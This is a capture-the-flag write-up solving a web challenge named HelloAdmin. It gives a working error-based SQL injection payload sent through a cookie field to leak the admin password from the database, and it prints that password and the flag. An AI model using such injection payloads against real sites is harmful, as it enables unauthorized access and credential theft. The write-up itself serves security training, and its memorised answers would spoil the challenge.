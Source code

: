 #HelloAdmin

**Category:** Web
**Points:** 20

**Description:**

Log in as 'admin' and you will see the flag!

http://helloadmin.iutcert.io

##HelloAdmin-Solution:

This challenge is based on sql-injection. Users are given a login page. Using ```test:test``` they can login and will be redirected to user.php page.
There is also another page named admin.php but they could access it only when the cookie ```Admin``` is equal to 1.

checking for sql-injection vulnerability, users can find out when they send a request to admin.php with below values in Cookie field of header, site is vulnerable to sqli and will respond with a sql error:

```
Cookie: PHPSESSID=3407qk4ll60du17iusmoo6s6t4; MyCookie="; Admin=1
```

The concept of this challenge is that MyCookie field is vulnerable, but when everything is ok only the message ```hello test``` will be shown in page.
It means that no value from database will be shown on this page and users can not see database fields and their values.

The solution is simple, 
####find a way to see the results of query in error. 
here is the query for geting the password of admin:

```
Cookie: PHPSESSID=3407qk4ll60du17iusmoo6s6t4; MyCookie=" union select 1,2,3,count(*), concat((select password from users limit 0,1),floor(rand()*3))a from information_schema.tables group by a--+; Admin=1
```

And by logging as admin they can see the flag:

```
username: admin
password: YouC4nNOTLoginAsM3
```
####flag: ```VOW_YOU_l0gg3d_in_AS_M3333```